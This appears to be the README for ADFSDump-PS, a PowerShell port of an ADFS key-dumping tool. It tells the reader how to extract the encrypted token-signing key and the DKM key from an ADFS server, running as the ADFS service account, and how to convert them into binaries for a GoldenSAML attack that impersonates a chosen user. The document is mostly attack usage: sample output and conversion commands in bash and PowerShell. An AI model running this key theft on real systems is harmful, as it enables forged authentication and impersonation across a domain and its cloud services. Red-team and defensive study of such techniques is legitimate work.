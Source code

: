 # ADFSDump-PS
I can't take credit for the hard work done in building [ADFSDump](https://github.com/mandiant/ADFSDump) but this is a PowerShell port of it using native functions. 

## Pre-Reqs
In certain conditions, you might need the SqlServer PS module:
- Install-Module -Name SqlServer
Note: Tests on an ADFS server installation with WID in October 2024 were possible without the SqlServer module.

You'll also need the following values for the GoldenSAML attack:
```
User Email/UPN - User to be impersonated
User ObjectGUID - Respective GUID for said user to be impersonated
DKM Key - Gathered using this script
TKS Key - Gathered using this script
Domain - Domain as seen by STS/ADFS/O365
```

## Usage 
To execute this you'll need to be running in the context of the ADFS Service account and on the server where ADFS Lives. 

```
.\Golden.ps1
Encrypted Token Signing Key: <Base64blob>
Certificate value: <certificate value>
Store location value: <StoreLocation>
Store name value: <StoreName>
DKM Key: <DKMKeyValue>
Domain is: example.zsec.uk
```

![image](https://github.com/ZephrFish/ADFSDump-PS/assets/5783068/9594365d-918d-4be5-b44e-ea9ac1e04a35)


If you want to do GoldenSAML, you'll need to do our conversion in the final few steps. Once you've got both the encrypted blob and the DKM key from the script, you'll need to run the following to convert them:
- `cat TKSKey.txt | base64 -d > TKSKey.bin`
- `cat DKM.txt | tr -d "-" | xxd -r -p > DKM.bin`

I'll link these two together later but save the DKM to DKM.txt and the encrytped b64 blob to TKSKey.txt, the PS will do the rest :).

For doing the same with PowerShell:    
```powershell
#TKSKey:
[IO.File]::WriteAllBytes("<PathToTKSKey>.bin", [Convert]::FromBase64String([IO.File]::ReadAllText("<PathToTKSKeyOutputFromScript>.txt")))
#DKMKey:
$content = Get-Content "<PathToDKMKeyOutputFromScript>.txt"
$cleanedContent = $content -replace "-"
$byteArray = for ($i = 0; $i -lt $cleanedContent.Length; $i += 2) {
    [Convert]::ToByte($cleanedContent.Substring($i, 2), 16)
}
[IO.File]::WriteAllBytes("<PathToDKMKey>.bin", $byteArray)
```
